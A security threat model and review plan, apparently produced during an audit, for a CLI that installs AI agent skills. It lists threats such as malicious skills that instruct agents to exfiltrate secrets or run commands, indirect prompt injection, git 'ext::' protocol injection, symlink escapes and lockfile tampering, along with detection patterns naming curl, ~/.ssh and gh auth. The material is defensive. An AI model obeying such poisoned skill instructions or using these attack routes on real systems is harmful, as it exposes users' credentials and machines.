| TM-002 | Malicious skill author | User installs a skill from untrusted repo/well-known/search. | Supply prompt/tool instructions that downstream agents obey. | Secret exfiltration, code tampering, command execution by agent. | Agent dirs, project files, credentials. | User warning in outro; selection prompts; metadata sanitization (`src/add.ts`, `src/installer.ts`). | No signature/review/sandbox/provenance enforcement; global install persists. | Add provenance display, trust levels, signature/checksum support, scary prompts for unknown sources/global installs, optional quarantine/review mode. | Static scan installed skills for high-risk tool instructions/secret exfil patterns; audit log of installs. | High | High | **high** |
| TM-003 | Malicious repo/local package | Source contains symlinks or path tricks; user installs from it. | Cross real filesystem boundary during discovery/copy/symlink operations. | Copy unintended files, install unexpected content, or write/delete outside expected location in edge cases. | Local files, agent dirs. | Lexical `sanitizeSubpath`, `isSubpathSafe`, `isPathSafe`, temp cleanup (`src/source-parser.ts`, `src/skills.ts`, `src/installer.ts`). | Lexical checks do not fully constrain realpaths; copy dereferences symlinks; discovery follows symlinked dirs. | Realpath-check search roots and copy sources; refuse or preserve symlinks safely; enforce source tree containment after resolving symlinks; add race-resistant open/copy. | SAST for `cp(... dereference:true)` with untrusted source; tests with symlink dirs/files and TOCTOU. | Medium | High | **high** |
| TM-004 | Malicious well-known host | User supplies arbitrary URL or path-relative docs URL. | Return malicious index/files, malformed install names, excessive files, or HTTP content. | Misleading terminal output, malicious file install, DoS/hang. | Agent dirs, terminal, privacy. | Index shape/file path validation; path-safe writes; metadata sanitization of frontmatter (`src/providers/wellknown.ts`, `src/installer.ts`). | Name validation bug lets invalid multi-char names through; accepts `http://`; no provider fetch timeout; Stage 2 unsanitized `installName`. | Fix name regex fail-closed; require HTTPS by default; add AbortSignal timeout/size/file-count limits; sanitize `installName` before all display/lock uses. | CodeQL remote fetch JSON -> terminal/write; fuzz well-known index names/files. | Medium | Medium | **high** |
| TM-005 | Compromised `skills.sh` or network/config | Installing allowlisted GitHub owner without `--full-depth`; blob snapshot path succeeds. | Serve snapshot different from GitHub tree/ref. | Silent supply-chain substitution of official skills. | Installed skills, user trust. | Owner allowlist; GitHub tree/raw discovery; snapshot path write checks (`src/blob.ts`). | No end-to-end verification of file contents against GitHub tree/ref; env can redirect download base. | Verify snapshot file hashes/tree SHA against GitHub API; pin snapshot hash in lock; show fallback/fast-path source to user; disable env override outside tests or warn. | Compare installed hash to tree on install; monitor mismatch rates. | Medium | High | **high** |
| TM-006 | Namespace squatter | Multiple skills discovered with same frontmatter `name`. | First malicious name shadows intended skill during dedupe/filter/install. | User installs wrong skill under trusted name. | Skill integrity, agent dirs. | Deduplication prevents duplicates in output (`src/skills.ts`). | Dedupe by untrusted name without directory/source binding or duplicate error. | Reject duplicate names by default; require path/name match for curated dirs; display source path for duplicates and require explicit selection. | Static check `seenNames` first-wins; tests for duplicate names in priority dirs and recursive fallback. | Medium | High | **high** |
| TM-007 | YAML/parser DoS attacker | Attacker controls `SKILL.md` frontmatter or giant files. | Trigger parser exception/stack/CPU/memory exhaustion. | Installation/update CI hangs/crashes. | CLI availability, CI. | YAML-only parser avoids gray-matter JS eval; caller catches many parse errors (`src/frontmatter.ts`, `src/skills.ts`). | No size/depth/time limits; blob/well-known parse failures can abort/fallback inconsistently. | Enforce max `SKILL.md` size and YAML depth; catch parse errors per file in blob path; add parser fuzz corpus. | Semgrep/CodeQL for `parseYaml` on remote data; resource-exhaustion tests. | Medium | Medium | **medium** |
| TM-008 | Telemetry privacy adversary | User installs from private/non-GitHub/well-known source or uses search. | CLI sends source/skill/agent/query metadata externally. | Sensitive project/vendor names disclosed. | User privacy, private repo metadata. | Opt-out env; GitHub private API skip when known private (`src/telemetry.ts`, `src/add.ts`). | README says CI disabled but code only marks CI; non-GitHub assumed trackable; well-known privacy check parses only `owner/repo`. | Make telemetry opt-in or truly disabled in CI; never send full non-GitHub/private-looking sources; document exact fields; add tests for CI. | Unit tests for `isEnabled`; telemetry event snapshots with private/well-known sources. | Medium | Medium | **medium** |
| TM-009 | Lockfile tamperer | Attacker can modify project/global lock or XDG state path. | Redirect update/restore to malicious source/ref/path; possibly exploit self-spawn quoting. | Persistent malicious reinstall; command execution if combined with TM-001. | Lockfiles, agent dirs. | Versioned JSON schema; local hashes; grouped update logic (`src/local-lock.ts`, `src/skill-lock.ts`, `src/install.ts`). | Lock entries not signed; update trust decisions depend on prior state; self-spawn uses shell on Windows. | Sign/pin lock entries; display source changes before restore/update; avoid `shell:true`; validate lock sources as strictly as user input. | CodeQL lock JSON -> spawn/add source; audit lock diffs in CI. | Medium | High | **high** |
| TM-010 | Malicious npm package / dependency | Project uses `experimental_sync` or dependency/build stack is compromised. | Place SKILL.md in `node_modules` or run install/build script during CI. | Agent instruction poisoning or release compromise. | Project skills, npm package. | `experimental_sync` prompt; lock hash; pnpm frozen lock in CI (`src/sync.ts`, workflows). | node_modules source is assumed trusted; dependency scripts run in CI; no package reputation review. | Mark sync experimental/dangerous; require explicit package allowlist; use `--ignore-scripts` where feasible in CI; SBOM/lockfile review. | Scan `node_modules/**/SKILL.md`; pnpm audit; dependency diff alerts. | Medium | High | **high** |
| TM-011 | CI attacker | Attacker influences PR or main branch workflow inputs. | Abuse build/publish scripts or dependencies to publish malicious package. | Broad downstream compromise via npm. | npm package, NPM_TOKEN, GitHub releases. | PR uses `pull_request` not target; publish only main/tags/dispatch; npm provenance and scoped permissions (`.github/workflows/*.yml`). | No pinned action SHAs; install scripts allowed; release shell uses commit subjects and `workflow_dispatch` input in shell. | Pin actions by SHA; least-privilege per job; consider `pnpm install --ignore-scripts` for checks; sanitize shell outputs; require branch protection/review for publish. | Workflow lint, zizmor/actionlint, dependency-script inventory. | Low-Medium | High | **medium** |
| TM-012 | Local attacker/race | Attacker can modify writable agent dirs/cwd during install/remove. | Race symlink/path between validation and write/delete. | Delete/write unexpected files under user account. | Local filesystem. | `isPathSafe` checks target strings; `realpath` parent handling in symlink creation (`src/installer.ts`, `src/remove.ts`). | TOCTOU remains where directories are writable by other users/processes. | Prefer private mode 0700 dirs; lstat/openat-style operations; refuse world-writable bases. | Runtime checks for base dir ownership/mode; tests with symlink races. | Low | Medium | **low** |

### Criticality calibration for this repo

- **Critical:** realistic pre-install command execution on developer/CI machines; remote source -> native git RCE; release-token compromise that publishes malicious npm package.
- **High:** silent installation of malicious instructions into global agent dirs; arbitrary file write/read/delete within user-controlled but sensitive locations; snapshot substitution of official skills; lock/update redirection that persists.
- **Medium:** privacy leakage of source metadata; parser/resource DoS; bypasses that require user confirmation or local tampering but not privileged code execution.
- **Low:** issues requiring same-user local race conditions, test-only paths, or non-security metadata confusion without install impact.

### Focus paths for security review

| Path | Why it matters | Related threats |
|---|---|---|
| `src/git.ts` | Native git subprocess boundary and simple-git dependency wrapper. | TM-001 |
| `src/source-parser.ts` | Source/ref/subpath URL classification and trust routing. | TM-001, TM-003, TM-009 |
| `src/add.ts` | Main orchestration, OpenClaw policy, blob fallback, selection prompts, telemetry gating. | TM-001..TM-009 |
| `src/blob.ts` | GitHub/raw/skills.sh snapshot trust and path handling. | TM-005, TM-007 |
| `src/providers/wellknown.ts` | Arbitrary URL discovery, index validation, file fetching. | TM-004, TM-008 |
| `src/skills.ts` | Discovery, frontmatter parse, dedupe, internal gating, symlink traversal. | TM-002, TM-003, TM-006, TM-007 |
| `src/frontmatter.ts` | YAML parser entrypoint for untrusted data. | TM-007 |
| `src/plugin-manifest.ts` | Manifest-controlled search paths and containment checks. | TM-003, TM-006 |
| `src/installer.ts` | File write/copy/symlink/delete path safety and agent path mapping. | TM-002, TM-003, TM-004, TM-012 |
| `src/sync.ts` | `node_modules` skill discovery and sync. | TM-010 |
| `src/install.ts`, `src/update-source.ts`, `src/skill-lock.ts`, `src/local-lock.ts` | Lockfile integrity and update/restore source construction. | TM-009 |
| `src/telemetry.ts`, `src/find.ts` | Outbound privacy and search-result trust. | TM-008, TM-002 |
| `.github/workflows/*.yml` | CI/release supply-chain boundary. | TM-011 |

## Domain Attack Research

### Domain Attack Modes

- **Mode A — CLI/package-manager/plugin-as-target:** applied `sharp-edges` to the CLI and skill-install UX because the project exposes an installer API whose defaults and prompts shape security outcomes.
- **Mode B — Library-as-consumer:** applied to `simple-git`, `yaml`, Node `fetch`/URL/path/fs/subprocess APIs, GitHub Actions, pnpm/npm build tooling, and parser/glob/config dependencies called out by Phase 1.
- **Mode C — Domain-specific:** triggered by command/process execution, AI agent skill supply chain, file/path/symlink handling, YAML parsing/deserialization, HTTP client/URL/well-known RFC 8615, supply chain/package managers, CI/CD, regex/parser DoS, and telemetry/privacy.

**Research sources used:** domain-attack-playbooks.md, `sharp-edges`, `insecure-defaults`, `wooyun-legacy`, `agentic-actions-auditor`, Phase 1/2 advisory/bypass reports, cached DuckDuckGo HTML in `piolium/attack-surface/raw/domain-research/`, and RFC 8615 fetched from rfc-editor. The `last30days` skill was loaded, but its referenced script is absent in this environment and previous attempts in raw artifacts failed; recent coverage was supplemented with Phase 1 2026 advisory data and cached web-search results.

### Cross-domain sharp edges and insecure defaults

| Sharp edge / default | Why risky | Evidence | Follow-up |
|---|---|---|---|
| Arbitrary direct git fallback | Unknown non-local input becomes `type: 'git'`, expanding protocol/option surface. | `parseSource()` fallback in `src/source-parser.ts` | Prefer explicit `git+`/allowlisted schemes; reject ambiguous sources. |
| Blob fast path enabled by default for allowlisted owners | Faster path trusts `skills.sh` snapshot without tree-content verification. | `src/add.ts`, `src/blob.ts` | Verify snapshot or require opt-in until transparency exists. |
| Well-known accepts `http://` and path-relative `.well-known` | Network attacker / scope confusion risk. | `isWellKnownUrl()`, `WellKnownProvider.fetchIndex()` | HTTPS default; Phase 6 RFC 8615 scope review. |
| `--all` / `--yes` install all skills to all agents | Noninteractive footgun if copied from untrusted docs. | `parseAddOptions()`, `runAdd()` | Require stronger warning for global/all from unknown sources. |
| Symlink is “Recommended” install mode | Shared state is convenient but makes path semantics/security reasoning harder. | `src/add.ts`, `src/installer.ts` | Keep, but add realpath containment and explicit symlink trust warning. |
| Telemetry enabled unless opt-out | Privacy-sensitive for private sources; README CI claim not enforced in `isEnabled()`. | `src/telemetry.ts` | Make telemetry opt-in or truly CI-disabled. |
| No well-known fetch timeout/size limit | Malicious host can hang or exhaust resources. | `src/providers/wellknown.ts` | Add `AbortSignal.timeout`, max file count/bytes. |

### Domain: AI agent skills / prompt-injection supply chain

**Identified via:** project purpose, README, installed `SKILL.md` format, `skills/find-skills/SKILL.md`, and web-search results for malicious agent skills.

**Known attack classes:**

| Attack | Description | Detection strategy | Relevance |
|---|---|---|---|
| Malicious instruction poisoning | Skill tells agent to exfiltrate secrets, alter code, or ignore user policies. | Scan installed/remote skill markdown for secret access, network exfil, tool-use coercion, hidden instructions. | High |
| Namespace squatting | Untrusted skill claims a trusted `name` and shadows legitimate content. | Detect duplicate frontmatter names and name/path mismatches. | High |
| Indirect prompt injection | Skill embeds instructions that trigger only in later agent contexts. | Manual review of skill content, hidden comments, obfuscated markdown, external references. | High |
| Tool permission escalation | Skill instructs agent to run shell/network commands beyond user expectation. | Pattern scan for `curl`, `env`, credential paths, `~/.ssh`, `gh auth`, package publish commands. | High |
| Search/reputation manipulation | External search API ranks attacker skill; user installs recommended source. | Treat `skills.sh` search results as untrusted; require source reputation display. | Medium |
| Global persistence | Malicious skill installed globally affects future projects. | Track global installs and require stronger provenance for `-g`. | High |

**Custom SAST targets:**

| Attack pattern | Rule type | Source/sink or pattern | Priority |
|---|---|---|---|
| Remote markdown to agent dir | CodeQL taint | `fetch`/git/local file -> `writeFile`/`cp` under agent dirs | High |
| Duplicate frontmatter name first-wins | Semgrep pattern | `seenNames.has(skill.name)` skip without error | High |
| Hidden/internal gate bypass | Semgrep pattern | `includeInternal` true when `--skill` provided | Medium |
| Unreviewed global install | Semgrep/control pattern | `options.global && options.yes` from remote source without warning gate | Medium |

**Manual review checklist:**

- [ ] Verify duplicate skill names are rejected or explicitly surfaced with paths.
- [ ] Review `find-skills` and installed skill examples for instructions that encourage blind `-g -y` installs.
- [ ] Ensure global installs from unknown sources display provenance and risk warnings.
- [ ] Confirm lockfiles capture enough provenance (source, ref, path, hash) to detect substitution.
- [ ] Add a malicious-skill review path before downstream agents execute instructions.

**Research sources used:** sharp-edges, insecure-defaults, cached web search (Snyk ToxicSkills, arXiv skill poisoning, OpenClaw malicious skills), Phase 2 OpenClaw/namespace-squatting notes.

### Domain: Command / process execution and `simple-git`

**Identified via:** `simple-git` dependency, `src/git.ts`, `spawnSync`, `execSync`, Phase 1 active advisories.

**Known attack classes:**

| Attack | Description | Detection strategy | Relevance |
|---|---|---|---|
| Git option injection | User URL/ref interpreted as git option/config by wrapper/git. | Taint source/ref to `git.clone`; look for unvalidated args beginning `-` or config syntax. | High |
| Protocol helper RCE | Git transports such as `ext::` or protocol.allow bypass execute helpers. | Validate allowed schemes and reject `ext`, `file`, protocol config tricks. | High |
| Case/encoding parser bypass | Library and git disagree on option/protocol parsing. | Avoid emulating git parser; first-party allowlist before wrapper. | High |
| Shell quoting injection in self-spawn | Lock-derived source passed to self-spawn with shell on Windows. | Taint lock/source to `spawnSync(... shell:true)`. | Medium |
| PATH hijack for `gh auth token` | `execSync('gh auth token')` resolves attacker-controlled `gh` from PATH. | Flag shell string exec and inherited env PATH. | Medium |
| Environment leakage to git | `...process.env` inherited by native git/credential helpers. | Review env scrub and credential-helper behavior. | Medium |

**Custom SAST targets:**

| Attack pattern | Rule type | Source/sink or pattern | Priority |
|---|---|---|---|
| CLI argv -> git clone | CodeQL | `process.argv` / `parseSource().url/ref` -> `simpleGit().clone` | High |
| Lockfile -> spawn CLI add | CodeQL | `JSON.parse(readFile(lock))` -> `spawnSync` args | High |
| Env/PATH -> execSync | Semgrep | `execSync('gh auth token')` without absolute path/shell false | Medium |
| Dangerous git protocols | Semgrep | `parseSource` fallback allows arbitrary `git` source | High |

**Manual review checklist:**

- [ ] Upgrade simple-git to a version fixed for CVE-2026-28291/28292.
- [ ] Reject source URLs with unsupported schemes before calling simple-git.
- [ ] Reject refs beginning with `-` or containing shell/control characters.
- [ ] Scrub env for git subprocess or explicitly pass only required variables.
- [ ] Remove `shell: true` from update self-spawns or prove Node quotes safely on Windows.

**Research sources used:** cached web search (Snyk CVE-2026-28291, SentinelOne/CVE-2026-28292, GLAD simple-git advisories), wooyun command-execution checklist, Phase 1 advisory inventory.

### Domain: File/path/symlink handling

**Identified via:** `src/installer.ts`, `src/skills.ts`, `src/remove.ts`, Stage 2 symlink bypass tests, Node path traversal research.

**Known attack classes:**

| Attack | Description | Detection strategy | Relevance |
|---|---|---|---|
| Lexical containment bypass by symlink | Path starts inside base but resolves outside. | Compare `resolve`/`normalize` checks with `realpath` checks; test symlinked dirs. | High |
| Symlink dereference exfiltration | Copy follows source symlink and copies target bytes into install. | Search for `cp(... dereference:true)` on untrusted source. | High |
| Zip-slip-like file writes | Snapshot/well-known file path escapes target. | Taint remote file path to `join(targetDir, path)` and `writeFile`. | Medium |
| Recursive delete path confusion | Sanitized skill names and symlinked bases can cause unintended deletes. | Taint skill names/agent dirs to `rm({recursive:true})`; realpath base checks. | Medium |
| Windows path differential | Backslash/drive/UNC paths bypass POSIX-style checks. | Cross-platform tests for `\`, drive letters, separator handling. | Medium |
| TOCTOU between check and use | Path checked, then symlink changed before write/delete. | Manual review of `lstat`/`rm`/`mkdir` sequences in writable dirs. | Low-Medium |

**Custom SAST targets:**

| Attack pattern | Rule type | Source/sink or pattern | Priority |
|---|---|---|---|
| Remote file path -> writeFile | CodeQL | `download.files[].path` / `entry.files[]` -> `writeFile` | High |
| Untrusted source dir -> `cp` dereference | Semgrep | `cp(srcPath, destPath, { dereference: true })` | High |
| Lexical path containment only | Semgrep | `normalize(resolve()).startsWith()` without `realpath` for untrusted roots | High |
| Skill name -> recursive rm | CodeQL | CLI/lock skill names -> `rm(... recursive:true)` | Medium |

**Manual review checklist:**

- [ ] Use realpath containment on search roots, skill paths, and copied entries.
- [ ] Decide policy for symlinks: reject, preserve as links inside tree, or copy only if target stays in tree.
- [ ] Add size/count limits before recursive copy/write.
- [ ] Test Windows path, UNC, junction, and case-insensitive edge cases.
- [ ] Confirm remove never follows symlink targets for deletion.

**Research sources used:** wooyun path-traversal checklist, cached web search (Node.js path traversal, symlink archive abuses), Phase 2 symlink bypass artifacts.

### Domain: YAML/frontmatter parsing and deserialization

**Identified via:** `yaml` dependency, `src/frontmatter.ts`, historical YAML advisories, untrusted `SKILL.md` metadata.

**Known attack classes:**

| Attack | Description | Detection strategy | Relevance |
|---|---|---|---|
| Unsafe YAML object construction | Some YAML parsers instantiate classes or execute tags. | Confirm library schema disables executable/custom tags; avoid unsafe loaders. | Low for current `yaml`, high class risk |
| Parser DoS | Deep nesting/aliases/large scalars exhaust stack/CPU/memory. | Fuzz parser with size/depth/alias payloads; enforce limits. | High |
| Type confusion | YAML parses booleans/numbers/objects where strings expected. | Type-check every consumed field. | Medium |
| Frontmatter delimiter confusion | Alternate frontmatter modes (`---js`) can execute in some parsers. | Ensure regex only supports YAML and rejects unknown modes. | Medium |
| Terminal/control injection in metadata | YAML string contains escape/control chars. | Sanitize before terminal/lock/source uses. | High |
| Prototype pollution via parsed objects | Parsed metadata merged into configs unsafely. | Search for deep merges/spread of `data.metadata`. | Low-Medium |

**Custom SAST targets:**

| Attack pattern | Rule type | Source/sink or pattern | Priority |
|---|---|---|---|
| Remote SKILL -> parseYaml | CodeQL | remote/git/well-known file content -> `parseYaml` | Medium |
| Missing size limit | Semgrep | `readFile(... 'utf-8')` -> `parseFrontmatter` without byte cap | Medium |
| Metadata to terminal without sanitization | CodeQL | parsed `data.name/description` or `installName` -> `console`/`p.log` | High |
| Metadata object merge | Semgrep | `data.metadata` spread/merge into config | Low |

**Manual review checklist:**

- [ ] Confirm `yaml` parser schema does not execute tags; pin patched version.
- [ ] Add maximum SKILL.md/frontmatter size and nesting limits.
- [ ] Ensure every metadata display path uses `sanitizeMetadata` or stricter validation.
- [ ] Fuzz invalid YAML; malformed frontmatter should fail closed per file, not crash whole install where fallback is possible.

**Research sources used:** cached YAML parser searches, OWASP unsafe deserialization prompt-skill result, Phase 1 YAML advisories, wooyun RCE/deserialization methodology.

### Domain: HTTP client, URL parsing, and well-known URI RFC 8615

**Identified via:** `fetch`, `URL`, arbitrary well-known URL support, `skills.sh`/GitHub APIs, fetched RFC 8615.

**Known attack classes:**

| Attack | Description | Detection strategy | Relevance |
|---|---|---|---|
| URL parser differential | Source classification regex and `new URL` disagree. | Test tricky URLs with userinfo, encoded slashes, ports, fragments. | Medium |
| SSRF-like local fetch | CLI fetches arbitrary URL; on developer machine this can reach localhost/intranet if user is tricked. | Flag well-known arbitrary fetch; block private/loopback by default if not needed. | Medium |
| HTTP downgrade/MITM | `http://` well-known sources can be modified in transit. | Require HTTPS or explicit `--insecure-http`. | High |
| RFC 8615 scope confusion | Applying path-relative well-known metadata or cross-origin policy incorrectly. | Phase 6 compare implementation to RFC root-only semantics and custom spec. | High |
| Redirect/content-type confusion | Fetch follows redirects and parses JSON/text without content-type checks. | Validate final URL origin and Content-Type; limit redirects. | Medium |
| Hidden well-known takeover | Limited write access to `.well-known` controls origin-wide discovery. | Source provenance display; warn on shared-host docs domains. | Medium |

**Custom SAST targets:**

| Attack pattern | Rule type | Source/sink or pattern | Priority |
|---|---|---|---|
| CLI URL -> fetch arbitrary | CodeQL | `parseSource().url` -> `fetch(indexUrl/skillMdUrl/fileUrl)` | Medium |
| HTTP well-known allowed | Semgrep | `input.startsWith('http://')` accepted as well-known | High |
| Missing fetch timeout | Semgrep | `fetch(` in `wellknown.ts` without `signal` | Medium |
| Path-relative `.well-known` | Semgrep/spec | `${basePath}/${wellKnownPath}` before root fallback | Medium |
| No content-type validation | Semgrep | `response.json()`/`text()` on untrusted response without checking headers | Low-Medium |

**Manual review checklist:**

- [ ] Decide whether well-known agent skills spec intentionally extends RFC 8615 to path-relative discovery.
- [ ] Require HTTPS by default and validate final redirect host.
- [ ] Add timeouts, byte limits, file count limits, and content-type checks.
- [ ] Block or warn on localhost/private IP well-known URLs unless explicit local mode.

**Research sources used:** RFC 8615 section 4, wooyun SSRF/path-traversal checklists, cached well-known URI search.

### Domain: Supply chain / package managers / CI-CD

**Identified via:** npm package manager role, `pnpm-lock.yaml`, `experimental_sync`, GitHub Actions publish, dependency advisories.

**Known attack classes:**

| Attack | Description | Detection strategy | Relevance |
|---|---|---|---|
| Malicious npm dependency skill | Dependency includes SKILL.md discovered by sync. | Scan `node_modules` package names and lock provenance before sync. | High |
| Dependency confusion/typosquat | Install/build pulls malicious package. | Lockfile review, package health, registry provenance. | Medium |
| Lifecycle script compromise | `pnpm install` or build scripts run code in CI. | Inventory install scripts; use `--ignore-scripts` where possible. | Medium |
| Release workflow token misuse | Main branch compromise publishes malicious CLI. | Workflow permissions, branch protection, action pinning. | High |
| Lockfile tampering | `skills-lock.json` or `pnpm-lock.yaml` modified to malicious source. | CI checks lock diffs and source allowlists. | High |
| Build artifact path traversal | Rollup/Vite advisory class writes outside output. | Upgrade dependencies; constrain build inputs. | Medium |

**Custom SAST targets:**

| Attack pattern | Rule type | Source/sink or pattern | Priority |
|---|---|---|---|
| node_modules SKILL -> installer | CodeQL | `readdir(node_modules)` -> `installSkillForAgent` | High |
| Workflow secrets in publish | Semgrep/YAML | publish job with `NPM_TOKEN`, unpinned actions, shell expressions | Medium |
| Lock source -> install | CodeQL | local/global lock JSON -> `runAdd`/`spawnSync` | High |
| Dependency advisory hot spots | Dependency policy | simple-git, rollup, vite, picomatch, defu, postcss versions | High |

**Manual review checklist:**

- [ ] Require explicit allowlist for `experimental_sync` package names.
- [ ] Pin GitHub Actions by SHA and keep minimum permissions.
- [ ] Upgrade active advisory dependencies from Phase 1.
- [ ] Add CI check that `skills-lock.json` changes are reviewed and sources are expected.
- [ ] Generate SBOM and verify npm provenance for releases.

**Research sources used:** domain playbook supply-chain section, agentic-actions-auditor workflow methodology, Phase 1 dependency advisories, cached AI skill supply-chain searches.

### Domain: CI/CD pipelines and agentic actions

**Identified via:** `.github/workflows/*.yml`; no AI agent actions present.

**Known attack classes:**

| Attack | Description | Detection strategy | Relevance |
|---|---|---|---|
| PR target secret exposure | `pull_request_target` with untrusted checkout leaks secrets. | Search workflows for `pull_request_target` and PR head checkout. | Low currently |
| Expression injection in shell | Untrusted `${{ github.event.* }}` placed in `run:`. | Static YAML grep for event expressions in run/env. | Low-Medium |
| Overbroad token permissions | `contents: write`, `id-token: write` can publish or push. | Review per job permission minima. | Medium in publish |
| AI action prompt injection | Workflow invokes AI agent on untrusted event content. | Agentic-actions-auditor known action list. | None currently |
| Dependency cache poisoning | Cache restored from weak keys. | Review setup-node cache and lockfile hash behavior. | Low-Medium |
| Release shell injection | Commit messages/inputs flow into shell. | Trace expressions/commit data to `run:` scripts. | Medium |

**Custom SAST targets:**

| Attack pattern | Rule type | Source/sink or pattern | Priority |
|---|---|---|---|
| AI action usage | YAML Semgrep | `uses: anthropics/claude-code-action`, Gemini, Codex, AI inference | Low watch |
| Event expression in run | YAML Semgrep | `${{ github.event.* }}` inside `run:` | Medium |
| Unpinned actions in publish | YAML Semgrep | `uses: actions/*@v*` in token-bearing jobs | Medium |
| `pull_request_target` | YAML Semgrep | trigger plus checkout | High if introduced |

**Manual review checklist:**

- [ ] Keep no AI agent actions in release workflows unless separately audited.
- [ ] Pin actions by SHA for publish job.
- [ ] Ensure workflow_dispatch inputs are constrained and not interpolated unsafely.
- [ ] Confirm branch protection prevents unreviewed main pushes.

**Research sources used:** agentic-actions-auditor skill and CI/CD domain playbook.

### Domain: Regular expressions / parser complexity

**Identified via:** source parsing regexes, frontmatter delimiter regex, name validation regex, dependency `picomatch` advisories.

**Known attack classes:**

| Attack | Description | Detection strategy | Relevance |
|---|---|---|---|
| ReDoS on source strings | Complex regex on long attacker-supplied source hangs CLI. | Run safe-regex/vuln-regex-detector on parser regexes. | Low-Medium |
| Glob ReDoS via dependency | picomatch extglob advisories in build/config stack. | Dependency upgrade; search user-controlled globs. | Medium in build stack |
| Validation logic bug | Regex failure branch accidentally permits invalid strings. | Unit tests for invalid names/control chars. | High in well-known name validation |
| Frontmatter large input scan | `[
\s\S]*?` over giant files can be costly. | Size limits before regex parse. | Medium |

**Custom SAST targets:**

| Attack pattern | Rule type | Source/sink or pattern | Priority |
|---|---|---|---|
| Unsafe regex on remote content | Semgrep | regex over whole `SKILL.md` without length cap | Medium |
| Regex validation fail-open | Semgrep/manual | `if (!regex.test(x)) { if (...) return false }` patterns | High |
| User-controlled glob use | Semgrep | future picomatch/glob imports with argv/config input | Medium |

**Manual review checklist:**

- [ ] Add tests for invalid well-known names of all lengths.
- [ ] Cap input lengths before regex/frontmatter matching.
- [ ] Upgrade picomatch transitive versions per Phase 1.
- [ ] Keep regexes simple and anchored; benchmark worst-case input.

**Research sources used:** domain playbook ReDoS section, Phase 1 picomatch advisories, cached parser searches.

## Phase 4 CodeQL Extraction Targets

| Flow ID | Source type | Source expression / entry | Sink kind | Sink expression / API | Notes |
|---|---|---|---|---|---|
| P4-001 | LocalUserInput | `process.argv.slice(2)` -> `parseAddOptions()` -> `parseSource()` | command-execution | `simpleGit().clone(url, tempDir, cloneOptions)` | Model simple-git clone as command sink. |
| P4-002 | LocalUserInput | `parseSource().ref` from URL fragment/tree path | command-execution | `cloneOptions = ['--branch', ref]` -> `git.clone` | Ref validation should be explicit. |
| P4-003 | RemoteFlowSource | Remote git repository files / local temp dir entries | file-access | `cp(srcPath, destPath, { dereference:true })`, `writeFile` | Needs custom source for files under cloned temp dir. |
| P4-004 | RemoteFlowSource | `fetchRepoTree`, raw GitHub `SKILL.md`, `skills.sh` download JSON | file-access | `installBlobSkillForAgent().writeFile(fullPath, contents)` | Track file.path to write sink. |
| P4-005 | RemoteFlowSource | Well-known `index.json` `entry.name`, `entry.files[]`, fetched file content | file-access | `installWellKnownSkillForAgent().writeFile(fullPath, content)` | Also terminal/log injection sink for `installName`. |
| P4-006 | RemoteFlowSource | Well-known user URL / arbitrary base URL | http-request | `fetch(indexUrl)`, `fetch(skillMdUrl)`, `fetch(fileUrl)` | SSRF-like local fetch model. |
| P4-007 | LocalUserInput | Local path argument / `node_modules` package paths | file-access | `installSkillForAgent` recursive copy/symlink | Treat local path as untrusted for CLI audit. |
| P4-008 | LocalUserInput | `skills-lock.json` / `.skill-lock.json` parsed JSON | command-execution | `spawnSync(process.execPath, [cliEntry, 'add', installUrl,...])` | Include Windows `shell:true` case. |
| P4-009 | LocalUserInput | Lockfile skill names / remove args | file-access | `rm(path, { recursive:true, force:true })` | Target deletion boundary. |
| P4-010 | EnvironmentVariable | `SKILLS_DOWNLOAD_URL`, `SKILLS_API_URL` | http-request | `fetch()` base URLs | Insecure-default / env redirection. |
| P4-011 | EnvironmentVariable | `XDG_STATE_HOME`, `CODEX_HOME`, `CLAUDE_CONFIG_DIR`, `VIBE_HOME` | file-access | lock paths and agent global dirs | Model env-controlled base dirs. |
| P4-012 | EnvironmentVariable | `PATH` / process env | command-execution | `execSync('gh auth token')`; `simpleGit({ env: { ...process.env }})` | PATH hijack/env inheritance. |
| P4-013 | RemoteFlowSource | `SKILL.md` frontmatter content | deserialization | `parseYaml(match[1])` | Model YAML parse as deserialization/parser sink. |
| P4-014 | RemoteFlowSource | Search API results `skill.source`, `skill.name` | http-request / command-execution | `runFind()` -> `parseAddOptions()` -> `runAdd()` | Follow-on install flow. |
| P4-015 | LocalUserInput | Plugin manifests `.claude-plugin/*.json` | file-access | `getPluginSkillPaths()` -> `discoverSkills()` | Path containment and manifest-controlled discovery. |

## Spec Gap Candidates

| Spec / normative source | Implemented area | Candidate gap | Phase 6 review questions | Evidence |
|---|---|---|---|---|
| **RFC 8615 Well-Known URIs** | `/.well-known/agent-skills/index.json` and legacy `/.well-known/skills/index.json` discovery | RFC 8615 defines well-known URIs rooted at the top of the path hierarchy; code also tries path-relative `{basePath}/.well-known/...`. | Is path-relative discovery specified by the Agent Skills discovery spec, or a non-compliant extension? How is scope limited? | `src/providers/wellknown.ts` |
| **RFC 8615 Security Considerations** | Well-known discovery/security | RFC calls out sensitive data exposure, DoS, authentication, DNS rebinding, hidden capabilities, and co-located origins; code lacks timeout/size/content-type controls and accepts HTTP. | Should clients require HTTPS, content types, redirect validation, and private-IP blocking? | `src/providers/wellknown.ts`; RFC 8615 section 4 |
| **RFC 3986 URI syntax** | URL/ref/subpath parsing and well-known names | Regex-based parsing may diverge from URL semantics; well-known name validator has fail-open logic for invalid multi-char names. | Are registered names/skill names valid URI path segments? Are fragments decoded safely? | `src/source-parser.ts`, `src/providers/wellknown.ts` |
| **Agent Skills specification (`agentskills.io`)** | `SKILL.md` frontmatter fields and installed layout | Code only enforces `name`/`description` strings; optional fields and downstream agent-specific semantics may not be normalized/validated. | Which fields are allowed, required, or dangerous (`allowed-tools`, hooks, metadata)? | `src/skills.ts`, README |
| **Claude Code plugin marketplace manifest** | `.claude-plugin/marketplace.json`, `plugin.json` local skill paths | Code skips remote plugin sources and requires `./` local paths; need verify exact manifest semantics and path roots. | Are `pluginRoot`, `source`, and `skills` containment rules spec-compatible? | `src/plugin-manifest.ts` |
| **Git transport/ref semantics** | GitHub/GitLab/direct git sources | First-party source/ref validation does not model full git option/protocol semantics; library advisories show parser emulation bypasses. | Which URL schemes/refs should be allowed? Should `file://`, `ext::`, config protocols, and refs starting `-` be blocked? | `src/source-parser.ts`, `src/git.ts` |
| **npm publish/provenance expectations** | GitHub Actions publish to npm | Uses npm provenance and token; actions not pinned by SHA and dependency install scripts run. | Does release process meet project supply-chain policy? | `.github/workflows/publish.yml` |

## Coverage Gaps

- `last30days` specialized Reddit/X script is not present in this runtime; raw artifacts show prior invocation failures. Recent domain research relied on web search and Phase 1 advisories instead.
